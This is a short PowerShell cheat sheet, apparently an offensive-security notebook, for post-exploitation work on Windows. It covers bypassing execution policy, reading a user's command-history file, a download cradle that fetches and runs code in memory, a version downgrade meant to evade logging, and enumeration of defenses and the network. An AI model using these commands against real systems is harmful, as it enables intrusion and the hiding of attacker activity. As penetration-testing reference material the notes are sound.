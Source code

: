 -- -
#### Basic Enum
```powershell
# list available modules loaded for user.
Get-Module

# Lists execution policy settings enforced on session
Get-ExecutionPolicy -List

# Change execution policy for the current session i.e. settings will revert on a new session/shell. More specifically changes the execution policy to bypass.
Set-Execution Bypass  -Scope Process

# Specified User's PowerShell command history i.e. equivalent to history in the terminal.
Get-Content C:\Users\<username>\AppData\Roaming\Windows\Powershell\PSReadline\ConsoleHost_history.txt

# Return environment variables 
Get-ChildItem Env: | ft Key,Value
```

^70bbe9

#### Download file over HTTP
```powershell
# Download a file from the web and call it from memory
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"
```

^5e02c8

#### Downgrade PowerShell Version
```powershell
# Logging was introduced in PowerShell 3.0, so if we can use PowerShell 2.0, then our actions won't be logged in Event Viewer, affording us more stealth.
powershell.exe -version 2
```

^5ccc63

#### Enum Defenses
```powershell
# Enum filewall settings
netsh advfirewall show allprofiles

# Check if Windows Defender is running
sc query windefend

# Check Windows Defender Config
Get-MpComputerStatus
```

^092be7

#### Enum Logged in Users
```powershell
qwinsta
```

^3fad5e


#### Network Enum
```pwoershell
# List all known hosts stored in the ARP table
arp -a

# List adapter settings. See if it's a part of multiple network segments/subnets
ipconfig /all 

# List routing table. Identify known networks and layer 3 routes
route print

# Status of the host's firewall
netsh advfirewall show state
```

^fb9888
